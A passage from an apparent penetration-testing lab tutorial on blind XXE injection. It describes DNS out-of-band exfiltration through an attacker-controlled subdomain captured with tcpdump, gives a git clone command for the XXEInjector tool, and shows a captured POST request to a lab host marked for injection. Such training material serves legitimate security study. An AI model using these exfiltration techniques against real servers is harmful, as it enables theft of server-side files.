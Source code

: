 ![](../img/xxe_27.png)

>**Tip:** In addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

#### Alternative 3: XXEInjector

Clone the tool [XXEInjector](../xxeinjector.md)

```bash
git clone https://github.com/enjoiz/XXEinjector.git
```

Once cloned, we will save our potentially vulnerable request into a file `xxe.req`. We will place the word `XXEINJECT` as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.210.196
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
